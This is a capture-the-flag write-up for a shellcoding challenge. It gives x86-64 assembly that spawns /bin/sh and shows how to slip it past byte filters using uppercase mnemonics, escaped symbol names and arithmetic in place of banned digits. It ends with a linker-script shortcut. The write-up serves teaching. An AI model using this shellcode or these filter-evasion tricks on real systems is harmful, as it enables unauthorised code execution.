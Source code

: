 # So What? Revenge

## Description

> Are you a shellcoding pro? If not, so what? (salt guaranteed once you know the solution)

{% file src="../../.gitbook/assets/handout.py" %}

## Solution

In this challenge, we were allowed to send an assembly source file that would be assembled with `as`. There are a number of filters that were being applied to our input.

{% code overflow="wrap" %}
```python
last_byte = b""
binary = b""
while True:
    byte = sys.stdin.buffer.read(1)
    binary += byte
    # allow cancer constraints here
    # man, I really wish there was a way to avoid all this pain!!!
    # lmao
    if b"\x80" <= byte < b"\xff": # 1. printable shellcode
        quit()
    if byte in b"/bi/sh": # 2. no shell spawning shenanigans
        quit()
    if b"\x30" <= byte <= b"\x35": # 3. XOR is banned
        quit()
    if b"\x00" <= byte < b"\x05": # 3. ADD is banned
        quit()
    if byte == b"\n" and last_byte == b"\n":
        break
    last_byte = byte
    if len(binary) >= 0x1000:
        exit(1)

with open("libyour_input.so", "wb") as f:
    f.write(binary)

print("Assembling!")

os.system("as libyour_input.so -o libyour_input.obj && ld libyour_input.obj -shared -o libyour_input.so")
```
{% endcode %}

The assembled library is then linked against `main`. A `libflag.so` is also compiled with `flag` defined, allowing it to have the `win()` function.

```python
main_source = """
#include <stdio.h>

extern int win();

#ifdef flag
int win() {
    printf("Congratulations!\\n");
    printf("FLAG_HERE");
}
#endif

int main() {
    win();
}
"""

with open("main.c", "w") as f:
    f.write(main_source)

os.system("gcc main.c -shared -o libflag.so -Dflag")
os.system("gcc main.c -L. -lyour_input -o main")
os.system("LD_LIBRARY_PATH='.' ./main")
```

### Unintended Solution

My unintended solution was to simply tackle the challenge the way it was presented, and evade the filters.

Let's first assume that the filters weren't there. Our goal would be to export a `win` function in our shared library, which is run by `main`. The following shellcode spawns a `/bin/sh` shell.

```nasm
.globl win
win:
    xor    %rdx, %rdx
    mov    $7526411553527181103, %rbx
    shr    $8, %rbx
    push   %rbx
    mov    %rsp, %rdi
    push   %rax
    push   %rdi
    mov    %rsp, %rsi
    mov    $59, %al
    syscall
    ret
```

The first challenge we face is that we cannot have any of the characters in `"/bi/sh"`.

```python
if byte in b"/bi/sh": # 2. no shell spawning shenanigans
    quit()
```

This can be evaded in our instructions by simply using uppercased code (which the assembler accepts), but dealing with the `win` label itself is a bit more tricky. We can't just use `WIN` since that would export a different symbol than the lowercased `win` we need.

We ended up creating the `win` label using `.set`, which expects a symbol name that can be a quoted value. To set the correct address, we use `.` which means the current position.

> `.set` symbol, expression
>
> The `.set` directive assigns the value of expression to symbol. Expression can be any legal expression that evaluates to a numerical value.

Great! This cursed code actually works, and linking it against `main` spawns a shell when running `main`.

```nasm
.GLOBL    "w\x69n"
.SET      "w\x69n", .
    XOR    %RDX, %RDX
    MOV    $7526411553527181103, %RBX
    SHR    $8, %RBX
    PUSH   %RBX
    MOV    %RSP, %RDI
    PUSH   %RAX
    PUSH   %RDI
    MOV    %RSP, %RSI
    MOV    $59, %AL
    SYSCALL
    RET
    
```

The final piece of the puzzle is to get rid of all digits `0` to `5`, since they correspond to the ASCII codes `\x30` to `\x35`.

```python
if b"\x30" <= byte <= b"\x35":
        quit()
```

Since the `MOV` operands are expressions, we could make use of mathematical operations to arrive at the number we need. For instance:

{% code overflow="wrap" %}
```
77768999999999 * 96779 + 788777778*6976 + 6798666 + 6699888 == 7526411553527181103
```
{% endcode %}

And that was just what we needed to complete the shellcode!

```
.GLOBL    "w\x69n"
.SET "w\x69n", .
    XOR    %RDX, %RDX
    MOV    $77768999999999*96779 + 788777778*6976 + 6798666 + 6699888, %RBX
    SHR    $8, %RBX
    PUSH   %RBX
    MOV    %RSP, %RDI
    PUSH   %RAX
    PUSH   %RDI
    MOV    %RSP, %RSI
    MOV    $66-7, %AL
    SYSCALL
    RET
    
```

Popping this into the challenge gives us a shell.

<figure><img src="../../.gitbook/assets/Screenshot 2022-09-26 at 12.34.25 AM.png" alt=""><figcaption></figcaption></figure>

### Intended Solution

The `libflag.so` was there for a reason! Notice that since `os.system()` does not raise an exception if the executed commands error out, we could just write to the `libyour_input.so` directly without ever writing assembly code.

This meant that we could write a [linker script](https://users.informatik.haw-hamburg.de/\~krabat/FH-Labor/gnupro/5\_GNUPro\_Utilities/c\_Using\_LD/ldLinker\_scripts.html) that just links `libflag.so`.

```
INPUT ( -lflag )
```
